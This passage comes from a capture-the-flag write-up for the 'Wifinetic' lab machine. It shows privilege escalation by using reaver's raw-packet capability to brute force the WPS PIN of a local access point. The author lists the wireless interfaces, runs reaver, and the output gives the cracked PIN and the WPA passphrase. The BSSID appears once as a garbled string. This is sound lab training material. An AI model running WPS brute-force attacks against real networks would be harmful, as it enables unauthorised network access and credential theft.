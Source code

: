 While those files are interesting, `ping` and `traceroute` are not going to help us get root. However, `reaver` will help us.

### Reaver

[Reaver](https://www.kali.org/tools/reaver/) is a tool used to brute force WPS pins. We can use this to our advantage to get root. Since this is the `wifinetic` box, this is probably the correct direction. We can see that the `Reaver` binary has the capabilities of `cap_net_raw+ep` which allows it to use raw packets and bind to any interface which is usually limited to elevated users.

#### iwconfig

First we want to check out the wireless interfaces and see if we can find anything interesting.

```console
netadmin@wifinetic:~$ iwconfig
hwsim0    no wireless extensions.
lo        no wireless extensions.
mon0      IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on         
wlan2     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on         
eth0      no wireless extensions.
wlan1     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on          
wlan0     IEEE 802.11  Mode:Master  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
```

We see that `mon0` is in monitor mode and only `wlan0` is in master mode. We can use `reaver` to brute force the WPS pin on `wlan0`.

#### Getting BSSID

To run `reaver` we need the `BSSID` of the `wlan0` interface. If we look back at our `linpeas` network output, we can see that the BSSID is `02:00:00:00:00:0002:00:00:00:00:00`

#### Running Reaver

We can now run `reaver` and try to brute force the WPS pin. We can use the `-vv` flag to get more verbose output.

```console
netadmin@wifinetic:~$ reaver -i mon0 -b 02:00:00:00:00:00 -vv
Reaver v1.6.5 WiFi Protected Setup Attack Tool

..SNIP
[+] Sending WSC NACK
[+] Sending WSC NACK
[+] Pin cracked in 7 seconds
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
[+] Nothing done, nothing to save.
```
